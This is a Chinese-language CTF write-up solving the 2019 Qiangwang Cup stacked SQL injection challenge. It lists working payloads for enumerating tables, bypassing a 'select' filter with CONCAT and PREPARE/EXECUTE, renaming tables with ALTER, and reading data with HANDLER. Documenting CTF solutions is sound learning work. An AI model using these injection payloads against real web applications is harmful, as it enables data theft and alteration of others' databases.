



强网杯-2019-随便注1做题笔记

<!-- more -->

## 前言

强网杯-2019-随便注1的一个随笔

### 解题方法

测试发现是**字符型SQL后端语句**

先堆叠注入看看，查查库名和表名

- 爆库名：`0';show databases#`
- 爆表名：`0';show tables#`

爆库如下：

<div align=center></div>

爆表如下： 

<div align=center></div>

可以发现有一个表有两个，尝试用 ``0';select * from `1919810931114514` `` （**注意如果表名全是数字，一点一点要加反引号包裹，这个很重要，不然没有回显**）

很可惜，关键词 `select` 被过滤掉了。

尝试 ``0';show columns from `1919810931114514`#`` （记得反引号），结果如下

<div align=center></div>

现在知道flag数据存在表`` `1919810931114514` ``下.

#### 法一：用储存过程绕过（利用prepare语句）

```
0';
SET @a = CONCAT('selec','t * from `1919810931114514`;');
// SET赋加代码在变量 @a 上，这里的@号必须加
// CONCAT函数用来拼接字符串，从而绕过过滤

PREPARE test from @a; 
// 利用prepare预处理语句，把 @a的命令用 test来储存（test可以随便命名）
//这里PREPARE必须大写，不然会报错，不知道为啥

EXECUTE test;#
// 执行 test命令。 用#把后面的SQL代码注释掉
```

所以拼接起来的payload就是 ``0';set @a = CONCAT('selec','t * from `1919810931114514`;');PREPARE test from @a;EXECUTE test;# ``

#### 法二：重命名绕过（利用alter语句和rename语句）

这个要求对SQL语句玩的挺六的，实在难以理解的话，可以用模拟数据库尝试以下

代码如下：
```
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);#
```

执行完上述请求再请求1’ or 1=1#即可获得Flag

参考：http://www.saucer-man.com/information_security/302.html

#### 法三：handler语句代替select查询:

可以了解以下

代码如下：

```
1';
handler `1919810931114514` open as ye;  
//同样的，这里的表名因为是纯数字所以需要用反引号包裹

handler ye read first;
handler ye close;#  
//注意：这里必须close handler才可以获取Flag
```

这里附上handler的用法：

```
handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
...
handler yunensec close; #关闭句柄
```

参考：https://www.cnblogs.com/yesec/p/12381210.html

## 结语

总之就是难度挺高的，费了我不少时间0.0
